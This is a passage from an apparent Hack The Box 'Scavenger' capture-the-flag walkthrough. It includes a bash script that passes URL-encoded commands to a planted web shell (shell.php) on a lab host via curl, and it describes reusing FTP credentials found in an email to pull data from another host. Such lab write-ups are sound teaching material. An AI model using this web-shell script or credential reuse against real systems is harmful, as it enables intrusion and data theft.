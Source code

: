 I wrote a very simple bash script to display the output in terminal instead.

<div class="filename"><span>ib01c03.sh</span></div>

```bash
#!/bin/bash

HOST=sec03.rentahacker.htb
CMD=$(urlencode $@)

curl -s \
     "http://$HOST/shell.php?hidden=$CMD"
```

### Hack the World!

During enumeration of `ib01c03`\'s account, I saw an email responding to `rentahacker.htb` email about their site being defaced.

<a class="image-popup">
![9d39fcbd.png](/assets/images/posts/scavenger-htb-walkthrough/9d39fcbd.png)
</a>

In the email, `supersechosting.htb` talked about working on another incident and guess what, FTP credentials to log into their FTP server.

Armed with this credential, I was able to retrieve important information about the incident happening over at pwnhats.htb (or `ib01c01`).
